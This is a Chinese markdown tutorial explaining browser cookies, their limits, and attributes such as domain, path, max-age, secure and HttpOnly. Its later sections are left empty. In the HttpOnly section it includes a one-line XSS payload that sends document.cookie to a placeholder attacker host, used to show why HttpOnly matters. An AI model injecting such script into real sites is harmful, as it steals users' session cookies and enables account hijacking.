

## cookie
`cookie` 是存储在浏览器的一小段文本信息。

### cookie 特征
- 伴随着 `http` 地请求往返于浏览器和服务器之间。
- 不同域名或不同路径下 cookie 的存储区域是不一样的。
- 每个域名下的 cookie 总数是有限的，每个浏览器所能允许存储的 cookie 大小也是有限制的。

  浏览器|每个域名最大 cookie 总数|cookie 总字节数
  --|--|--
  Chrome|180|4096
  Firefox|150|4097
  InternetExplorer|50|5117
  Opera|60|4096
  Safari|600|4093
- 不可跨域，有实效性等。

### cookie 作用
- 标识用户身份。
- 同源下，跨页面通信的一种方式。

### cookie 原理
- 浏览器第一次请求，服务器通过响应头下发 cookie，标识用户身份。
- 浏览器第二次请求，会自动带上符合条件的 cookie，服务器根据 cookie 辨识身份，来返回合理的响应体。



### cookie 属性
**name**: 同域下的 cookie-name 不可相同，否则会覆盖前者。有两个特殊的 name：

name|含义
--|--
__Secure- 前缀|以 __Secure- 为前缀的 cookie（其中连接符是前缀的一部分），必须与 secure 属性一同设置，同时必须应用于安全页面（即使用 HTTPS 访问的页面）
__Host- 前缀|以 __Host- 为前缀的 cookie，必须与 secure 属性一同设置，必须应用于安全页面（即使用 HTTPS 访问的页面），必须不能设置 domain 属性 （也就不会发送给子域），同时 path 属性的值必须为“/”

> [谷歌搜索](https://www.google.com/)就存在带有这种特殊前缀的 cookie-name。

**value**: 许多应用对其进行了编码，但按照 RFC 规范，无须编码。

**domain**: 控制 cookie 对哪个域有效。默认值是自动绑定当前站点的根路径。
- 不可跨域，比如在 localhost:5000 下不可设置 domain 为 127.0.0.1:7001 站点下的 cookie。
- 一级域名相同下的 cookie 可作用于二级域名，但是二级域名间不可交换使用。<br />比如：a.baidu.com 和 b.baidu.com 可使用 .baidu.com 域名下的 cookie，但 a.baidu.com 和 b.baidu.com 站点下的 cookie 不可相互使用。

**path**: 设置 cookie 的作用路径（就是页面路由 pathname）。当用户访问 /spa 时，可使用 / 和 /spa 下的 cookie，但不能使用 /ssr 下的 cookie。

**expires/max-age**: 设置 cookie 的过期时间。默认是 session，浏览器会话结束（关闭浏览器）时。
  - expires 是一个时间点，单位**毫秒**； 
  - max-age 是一个以**秒**为时间的时间段。max-age 可能的值：负数、0、正数。
    值|含义
    --|--
    负数|有效期为 session
    0|删除 cookie
    正数|有效期为创建时刻 + 最大时间

    例如，设置两年后过期：
    ``` js
    const expires = new Date(Date.now() + 2 * 365 * 24 * 3600 * 1000).toGMTString()
    const maxAge = 2 * 365 * 24 * 3600;
    ```
**secure**: 默认情况下，不管是 http、https 协议的请求都会把 cookie 发送到服务端。设置 secure 为 true 时，此时的 cookie 只能在 https 等安全协议下传输。
> 注意：只有是在 https 安全协议下的 web 站点，才能设置 secure 的值。

**HttpOnly**: 是否禁止浏览器通过 document.cookie 获取 cookie。这样能有效防止 XSS 攻击。假如 hacker 植入 script 脚本成功了且目标站点 HttpOnly 又设置为 false，那么 hacker 可轻松获取用户的 cookie：

``` js
<script>
  new Image().src = 'http://www.hacker.com/c=' + decodeURIComponent(document.cookie)
</script>
```

### cookie 设置、获取、删除

### cookie 优缺点

### refs
